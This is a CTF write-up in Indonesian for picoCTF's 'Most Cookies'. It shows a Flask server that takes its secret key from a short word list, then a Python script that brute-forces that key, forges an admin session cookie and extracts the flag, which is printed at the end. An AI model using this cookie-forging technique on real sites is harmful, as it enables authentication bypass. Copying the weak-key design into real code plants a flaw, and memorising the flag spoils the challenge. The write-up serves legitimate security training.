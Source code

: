 # Most Cookies
- Link: https://play.picoctf.org/practice/challenge/177?category=1&page=2

## Tantangan
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py) http://mercury.picoctf.net:18835/

## Penyelesaian
- Download file `server.py` yang dilampirkan di soal tantangan
```sh
wget https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Most%20Cookies/assets/most%20cookies%201.JPG)

- Isi dari file `server.py` adalah sebagai berikut
```sh
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```
- Flask Cookie dilindungi dengan secret key. Dari source code diatas terlihat bahwa secret key dipilih secara acak dari array `cookie_names` sehingga kita perlu melakukan brute force untuk menemukan secret key yang bisa dipakai untuk decode kemudian kita mengencode cookie `{'very_auth': 'admin'}` dengan secret key yang ditemukan lalu mengirimkan kembali ke web
- Cara ini selanjutnya kita tulis menjadi program python. Copy source code dibawah ini lalu simpan dengan nama `most_cookies.py`
```sh
import requests
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer
from bs4 import BeautifulSoup

def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)

def encode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.dumps(cookie_str)

#Mengambil cookie
s = requests.Session()
r = s.get("http://mercury.picoctf.net:18835/")
cookie = s.cookies["session"]
print('Cookie : ',cookie)

#wordlists secret key
wordlists = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

for secret_key in wordlists:
    try:
    	#decoce cookie
        decode_cookie = decode_flask_cookie(secret_key, cookie)
        print('Secret key : ',secret_key)
        print('Decode cookie : ',decode_cookie)
        
        #encode cookie baru dengan secret key yang ditemukan
        session = {'very_auth': 'admin'}
        encode_cookie = encode_flask_cookie(secret_key, session)
        print('Encode cookie : ',encode_cookie)
        
        #kirim cookie ke web
        r = requests.get("http://mercury.picoctf.net:18835/", cookies = {"session": encode_cookie})
        
        #mengambil flag dari web
        soup = BeautifulSoup(r.text, "html.parser")
        flag = soup.select("body > div.container > div.jumbotron > p:nth-child(2)")[0]
        print(flag.get_text())
       	
        break
    except:
        continue

```
- Selanjutnya eksekusi program tersebut diterminal
```sh
python3 most_cookies.py
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Most%20Cookies/assets/most%20cookies%202.JPG)

- Flag
```sh
picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
```